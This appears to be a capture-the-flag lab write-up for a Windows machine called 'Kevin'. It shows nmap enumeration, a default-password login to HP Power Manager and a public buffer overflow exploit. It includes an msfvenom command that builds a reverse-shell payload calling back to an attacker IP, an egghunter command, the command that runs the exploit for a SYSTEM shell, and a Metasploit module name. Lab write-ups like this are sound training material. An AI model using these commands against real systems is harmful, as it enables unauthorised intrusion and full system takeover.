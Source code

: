 ```yaml
---
description: Use public Buffer Overflow exploit to gain elevated privilege
---
```


# Kevin

## Summary

* HP Power Manager runs on port 80, allowing admins to log in using the default password.&#x20;
* A vulnerable version of HP Power Manager was discovered upon logging in, which can be exploited using a publicly available exploit.
* On executing the exploit, we will get the `NT SYSTEM` shell.

## Let's unpack

### Enumeration

```bash
# NMAP
sudo nmap -sC -sN -A -oN nmapFull -p- -A 192.168.166.45

Nmap scan report for 192.168.166.45
Host is up (0.086s latency).

PORT     STATE SERVICE            VERSION
80/tcp   open  http               GoAhead WebServer
|_http-server-header: GoAhead-Webs
| http-title: HP Power Manager
|_Requested resource was http://192.168.166.45/index.asp
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds       Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2024-06-25T15:53:19+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=kevin
| Not valid before: 2024-03-22T01:47:18
|_Not valid after:  2024-09-21T01:47:18
| rdp-ntlm-info: 
|   Target_Name: KEVIN
|   NetBIOS_Domain_Name: KEVIN
|   NetBIOS_Computer_Name: KEVIN
|   DNS_Domain_Name: kevin
|   DNS_Computer_Name: kevin
|   Product_Version: 6.1.7600
|_  System_Time: 2024-06-25T15:53:10+00:00
3573/tcp open  tag-ups-1?

```

### Initial Foothold

Getting Shell without using Metasploit

Exploit used: [https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3/blob/master/README.md](https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3/blob/master/README.md).

```bash
# Creating payload and replacing it at line 34
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.225 LPORT=4411  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python
> # Replace the payload as mentioned in the exploit

# using msf-egghunter to create egghunter 
 msf-egghunter -f python -b '\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c&=+?:;-,/#.\\$%\x1a' -e b33f -v 'hunter'
> # Replace the egghunter as mentioned in the exploit


# that's it; execute the exploit and get back to the admin shell
python3 hp_pm_exploit_p3.py 192.168.166.45 80 4411

```

You can use the following exploit to get a shell using Metasploit

<pre class="language-bash"><code class="lang-bash"># exploit used
<strong>use exploit/windows/http/hp_power_manager_filename
</strong>
</code></pre>



